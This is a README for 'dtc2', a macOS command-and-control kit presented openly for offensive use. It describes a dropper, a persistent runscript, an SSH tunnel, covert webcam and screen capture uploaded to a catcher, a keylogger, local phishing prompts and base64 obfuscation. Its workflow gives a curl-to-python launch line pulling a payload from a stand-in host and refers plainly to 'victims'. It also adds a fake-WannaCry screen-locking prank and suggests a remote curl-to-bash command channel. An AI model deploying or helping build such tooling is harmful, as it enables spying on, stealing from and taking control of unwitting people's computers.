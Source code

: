 # dtc2
Duct Tape Command and Control!

## WARNING
You will ABSOLUTELY NEED to go into these files and edit them: cups.sh, launch.sh, tunnel.sh, upload.php, snapshot.sh. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes.
------
It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. 

## DISCLAIMER
------
Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.


## A quick file list:
------
- **Airport.sh**: this is just a shortcut to the airport binary on OSX
- **geo.m**: you compile this into a binary to get GPS coords from macs
- **tunnel.plist**: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive (not required, but there in case you need it)
- **imagesnap**: a binary that takes webcam pics (yes, it does fire the green light)
- **launch.sh**: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things. You'll want to modify this.
- **cups.sh**: This is the main runscript that runs every 30 minutes. Modify this as you see fit.
- **tunnel.sh**: a simple bash loop to keep an ssh tunnel alive.
- **gallery.html**: a terrible, but simple drop-in gallery
- **snapshot.sh**: a terrible shellscript to take pictures of desktop/webcam and upload them to the crappy upload.php catcher
- **getImages.php**: this builds the imagelist for the gallery html
- **style.css**: css for gallery
- **upload.php**: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- **osascript.sh**: an example of osascript, used to locally-phish a user. try it on yourself! :D
- **almondrocks72.py**: A slightly modified version of the almondrocks python proxy, for python 2.7
- **almondrocks3.py**: Same thing, but for python3.
- **printdebug**: The ruby keylogger, torn out of powershell empire so it is standalone. It writes to /tmp/debug.db.
- **printproxy**: the "proxy2" python proxy, for python 2.7, slightly modified so that it listens on more than localhost
- **packer.py**: a thin layer of obfuscation - encodes shellscripts into base64, and runs them through python to hide cleartext. Probably a good idea to run on cups.sh, launch.sh and snapshot.sh once you're done editing them. Remember to chmod things correctly and change the file extention in launch.sh if you use this. It'll create .py files. Just make sure everything lines up.


## WORKFLOW:
------
  buy hosting/vm -> setup webserver/letsencrypt/basicauth/etc -> upload files -> create all your payloads -> stand up your listeners -> edit launch.sh and cups.sh -> pack .sh files -> upload -> launch using **curl -s haxsite.lol/launch.py | python &**

You may also want to drop the gallery files into place somewhere so you can upload them. It is **STRONGLY ADVISABLE** to use letsencrypt and apache/nginx basic auth so that your victims can't just stumble across your files, and that you aren't transmitting things in the clear.


## PIRATE
------
In this directory are some files:
- **WebViewScreenSaver.saver**: a screensaver file, borrowed from https://github.com/liquidx/webviewscreensaver - modified so that the default url to open is **file:///tmp/pirate/index.html**
- ** css, js, scss, index.html**: an HTML5, animated version of the archer pirate virus, with no sound
- **wannacry.jpg**: a screenshot of the wannacry ransomware application window
- **launch.sh**: the script that does the thing.

Launch.sh, when run, will drop the piratevirus files and the jpg into /tmp, it will drop the .saver file into ~/Library/Screen Savers/, then it will set the screensaver options in osx to require a password, and set the wait time for the password to 0. It'll then use osascripting to set the wannacry jpg to the desktop on all available desktops, and then select the webviewscreensaver as the main screensaver, and launch it.


As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify cups.sh to conduct any sort of post-exploit ops you wish. 

One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?
